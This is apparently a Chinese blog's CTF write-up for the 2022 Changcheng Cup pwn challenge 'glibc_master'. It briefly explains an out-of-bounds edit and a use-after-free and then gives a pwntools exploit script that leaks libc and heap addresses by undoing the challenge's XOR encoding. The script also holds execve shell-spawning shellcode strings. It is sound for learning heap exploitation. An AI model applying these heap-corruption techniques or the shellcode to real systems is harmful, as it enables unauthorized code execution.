 ```yaml
---
title: 2022 长城杯 pwn Writeup
date: 2022-08-24 6:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=42/
pin: false
published:
---
```


## glibc_master(house of kiwi/UAF)

![image-20220825085120108](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220825085120108.png)

题目难点主要是edit功能会对堆内容进行一个加密，show功能有3次的次数限制，第三次会close（1）

![image-20220825085431830](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220825085431830.png)

漏洞点在edit功能的数组越界，同时dele功能还有个UAF

和这道题后续就基本一样了[2022nssrand4 pwn wp](https://blog.e4l4.com/posts/Nssctfrand4/#做道堆题休息一下吧高版本的小sizeoffbynull)劫持bss段上的stderr，house of kiwi或者house of cat都行

![image-20220825085506825](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220825085506825.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import binascii
context.arch="amd64"
context.log_level = 'debug'

p = process("./glibc_master")
# p = remote("172.20.5.61","9999")
elf = ELF("./glibc_master")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------


def add(idx,size):
	sla(">>",1)
	sla('input index:',idx)
	sla("input size:",size)

def edit(idx,con):
	content = ''
	sla(">>",2)
	sla('input index:',idx)
	for i in range(len(con)):
	    content += chr(u8(con[i])^u8(string[i]))
	p.sendlineafter("input context:",content)

def show(idx):
	sla(">>",3)
	sla('input index:',idx)

def dele(idx):
	sla(">>",4)
	sla('input index:',idx)

string = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/='

add(0,0x440)
add(1,0x440)
dele(0)
add(2,0x450)
show(0)
libc_base = uu64()-0x2190c0
lg('libc_base')

edit(0,'a'*0x10)

show(0)
p.recvuntil('a'*0x10)

heap_base_x= p.recv(6)

content = ""
for i in range(6):
	content += chr(u8(heap_base_x[i])^u8(string[16+i]))

heap_base = u64(content.ljust(8,'\x00'))-0x290

lg('heap_base')

edit(0,p64(libc_base+0x2190c0)*2)

p.interactive()
```

